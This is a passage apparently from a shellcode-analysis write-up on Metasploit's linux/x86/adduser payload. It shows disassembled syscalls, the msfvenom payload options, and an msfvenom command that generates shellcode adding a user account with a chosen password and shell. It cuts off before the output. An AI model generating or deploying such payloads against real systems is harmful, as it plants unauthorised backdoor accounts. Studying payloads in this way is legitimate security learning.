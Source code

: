 then one exit.
```c
    ; write syscall ssize_t write(int fd, const void *buf, size_t count);

   0x08048555 <+85>:	push   ecx
   0x08048556 <+86>:	cld   
   0x08048557 <+87>:	push   0x4      ; write syscall
   0x08048559 <+89>:	pop    eax
   0x0804855a <+90>:	int    0x80	; write(socktfd, ecx, 0x28)

    ; exit syscall with the value of ebx

   0x0804855c <+92>:	push   0x1
   0x0804855e <+94>:	pop    eax
   0x0804855f <+95>:	int    0x80      ; exit()	
```

## Extras ##

If we have a look at the options of msfvenom, we see that it is possible to pass when creating the shellcode some arguments:

```c
msfvenom -p linux/x86/adduser --payload-options
|Options for payload/linux/x86/adduser:
|
|       Name: Linux Add User
|     Module: payload/linux/x86/adduser
|   Platform: Linux
|       Arch: x86
|Needs Admin: Yes
| Total size: 97
|       Rank: Normal
|
|Provided by:
|    skape <mmiller@hick.org>
|    vlad902 <vlad902@gmail.com>
|    spoonm <spoonm@no$email.com>
|
|Basic options:
|Name   Current Setting  Required  Description
----   ---------------  --------  -----------
PASS   metasploit       yes       The password for this user
SHELL  /bin/sh          no        The shell for this user
```

For instance, when defining a new user:

```c
msfvenom -a x86 --platform=linux -p linux/x86/adduser USER=xophidia PASS=xophidia SHELL=/bin/bash -f c 
````

We get :
